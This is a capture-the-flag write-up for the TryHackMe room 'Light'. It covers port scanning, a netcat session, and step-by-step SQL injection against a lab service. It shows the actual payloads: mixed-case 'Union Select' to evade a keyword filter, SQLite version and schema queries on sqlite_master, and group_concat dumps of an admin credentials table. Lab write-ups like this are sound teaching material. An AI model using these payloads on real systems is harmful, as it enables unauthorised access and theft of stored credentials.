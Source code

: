 ```yaml
---
title: "Light"
date: 2025-03-06
image: /assets/img/tryhackme/Light/Light_image.jpg
description: Writeup of the TryHackMe-CTF Light
categories: [Tryhackme, Easy]
tags: [linux, sqli]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Light</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Welcome to the Light database application!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/lightroom">https://tryhackme.com/room/lightroom</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Light.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.111.47                
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-06 11:12 EST
  Nmap scan report for 10.10.111.47
  Host is up (0.042s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  1337/tcp open  waste

  Nmap done: 1 IP address (1 host up) scanned in 20.81 seconds
```

Because of the challenge description, I skipped the nmap script scan and moved on to port 1337.

## Port 1337 Analysis

I started by using netcat to connect to the port 1337:
```bash
$ nc 10.10.111.47 1337        
  Welcome to the Light database!
  Please enter your username:
```

Since the description provided the username `smokey`, I entered it and received the following response:
```bash
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

I tested these credentials with `ssh`, but without success. The application takes user input, verifies it and returns the corrensponding password.  Keeping this in mind, I attempted some format string payloads, but they didn't work either. So, I continued with SQL injection payloads. While experimenting with common SQL keywords and syntax, I got the following results:
```bash
Please enter your username: select
Ahh there is a word in there I don't like :(
Please enter your username: Select
Username not found.
Please enter your username: UnIoN
Username not found.
Please enter your username: union
Ahh there is a word in there I don't like :(
Please enter your username: --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
Please enter your username: '    
Error: unrecognized token: "''' LIMIT 30"
Please enter your username: 'test
Error: near "test": syntax error
```

Based on these results, I assumed that the SQL query handling the input might look something like this:
```sql
select password from users where username='our input' limit 30;
```

This suggests that there is a single column in the response, which I could potentially exploit using a `UNION` attack:
```bash
Please enter your username: 'Union Select true'
Password: 1
Please enter your username: 'Union Select TryHackMe'
Error: no such column: TryHackMe
```

Thats a success, I managed to break out of the SQL syntax! Now, I needed to gater more information about the database management system to refine my attack:
```bash
Please enter your username: 'Union Select @@version'   
Error: unrecognized token: "@"
Please enter your username: 'Union Select Version()'    
Error: no such function: Version
Please enter your username: 'Union Select sqlite_version()'
Password: 3.31.1
```

Great, it's an SQLite database! This information helped me to dig deeper and find the name of the user table:
```bash
Please enter your username: 'Union Select Sql From sqlite_master'
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

With this, I was able to extract more useful data from the `admintable`:
```bash
Please enter your username: 'Union Select group_concat(tbl_name) From sqlite_master'
Password: usertable,admintable
Please enter your username: 'Union Select username || ";" || password From admintable'
Password: [removed];[removed]
```

Since only one entry was returned, I checked if there where more:
```bash
Please enter your username: 'Union Select GROUP_CONCAT(username) from admintable'       
Password: [removed],flag
```

The flag entry is exectly what I was looking for:
```bash
Please enter your username: 'Union Select GROUP_CONCAT(password) from admintable'              
Password: [removed],THM{[removed]}
```

solved! :)
